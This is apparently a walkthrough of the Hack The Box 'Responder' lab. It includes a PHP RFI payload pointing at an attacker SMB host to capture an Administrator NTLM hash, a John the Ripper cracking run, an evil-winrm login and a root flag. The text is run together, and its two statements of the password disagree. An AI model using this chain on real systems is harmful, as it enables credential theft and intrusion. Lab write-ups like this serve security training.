

When visiting the web service using the IP address, what is the domain that we are being redirected to?
unika.htbThe website has redirected the browser to a new URL, and my host doesn’t know how to find unika.htb. This webserver is employing name-based Virtual Hosting for serving the requests.
Name-Based Virtual Hosting is a method for hosting multiple domain names on a single server. The web server checks the domain name provided in the Host header field of the HTTP request and sends a response according to that.

The /etc/hosts file is used to resolve a hostname into an IP address & thus we will need to add an entry for this domain to enable the browser to resolve the address for unika.htb. That’s why the screen is currently black showing nothing.
Entry in the /etc/hosts file:
echo "10.129.172.140 unika.htb" | sudo tee -a /etc/hosts

After we had appended the entry, I refreshed the page and the website now showed everything properly.

Which scripting language is being used on the server to generate webpages?
PHP
What is the name of the URL parameter which is used to load different language versions of the webpage?
page
Which of the following values for the page parameter would be an example of exploiting a Local File Include (LFI) Vulnerability: “french.html”, “//10.10.14.6/somefile”, “../../../../../../../../windows/system32/drivers/etc/hosts”, “minikatz.exe”
../../../../../../../../windows/system32/drivers/etc/hostsWhich of the following values for the page parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: “french.html”, “//10.10.14.6/somefile”, “../../../../../../../../windows/system32/drivers/etc/hosts”, “minikatz.exe”
//10.10.14.6/somefileLFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not intended to be an option for this application. A common examples is when an application uses the path to a file as input. If the applications treats this input as trusted, and the required sanitary checks are not performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name and eventually view sensitive files in the local file system.
RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTC, etc.
What does NTLM stand for?
New Technology LAN ManagerNTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response authentication protocol used to authenticate a client to a resource on an Active Directory domain.
Which flag do we use in the Responder utility to specfiy the network interface?
-I
We just saw that LFI is possible as we can view the contents of the C:\windows\system32\drivers\etc\hosts file in the response.
The file inclusion was made possible because in the backend the include() method of PHP is being used to process the URL parameter page for serving a different webpage for different languages.
In the PHP configuration file php.ini, “allow_url_include” wrapper is set to “Off” by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if allow_url_include and allow_url_fopen are set to “Off”, PHP will not prevent the loading of SMB URLs. In our case, we can misuse this functionality to steal the NTLM hash.
Verify that the Responder.conf is sent to listen for SMB requests. With the configuration file ready, we can proceed to start Responder with python3, passing in the interface to listen on using the -I flag.

Starting Responder by running the following command: sudo python3 Responder.py -I tun0

With the Responder server ready, we tell the server to include a resource from our SMB server by setting the page parameter as follows via the web browser.
http://unika.htb/?page=//10.10.14.28/somefile

Now we let’s crack the hash using the John the Ripper.
There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as ‘john’, but the full name is what?
John the RipperWhat is the password for the administrator user?
badminton1┌──(kali㉿kali)-[~/Desktop]
2└─$ echo "Administrator::RESPONDER:8a9c5ae98bb0afe8:B5337356E784F427FCA011E764465155:010100000000000000091E577FD5DA01F2AE6AA5DEA6
30C990000000002000800430044005500380001001E00570049004E002D0058004F004100460043004F0052005500550049004A0004003400570049004E002D005
48004F004100460043004F0052005500550049004A002E0043004400550038002E004C004F00430041004C000300140043004400550038002E004C004F00430041
5004C000500140043004400550038002E004C004F00430041004C000700080000091E577FD5DA01060004000200000008003000300000000000000001000000002
60000031C85E41ABB6A4BB8A30F1CF440450559198FFDF38BC3047031571CB1CA793290A0010000000000000000000000000000000000009002000630069006600
773002F00310030002E00310030002E00310034002E00320038000000000000000000" > hash.txt 1┌──(kali㉿kali)-[~/Desktop]
2└─$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
3Using default input encoding: UTF-8
4Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
5Will run 2 OpenMP threads
6Press 'q' or Ctrl-C to abort, almost any other key for status
7badminton (Administrator)
81g 0:00:00:00 DONE (2024-07-14 00:02) 100.0g/s 819200p/s 819200c/s 819200C/s 123456..whitetiger
9Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
10Session completed.We’ll use a Window service (i.e. running on the box) to remotely across the Responder machine using the password we recovered. What port TCP does it listen on?
5985
Submit root flag
ea81b7afddd03efaa0945333ed147facWe will connect to the WinRM service on the target and try to get a session. Because Powershell isn’t installed on Linux by default, we’ll use a tool called Evil-WinRM.
evil-winrm -i 10.129.172.140 -u administrator -p badminton

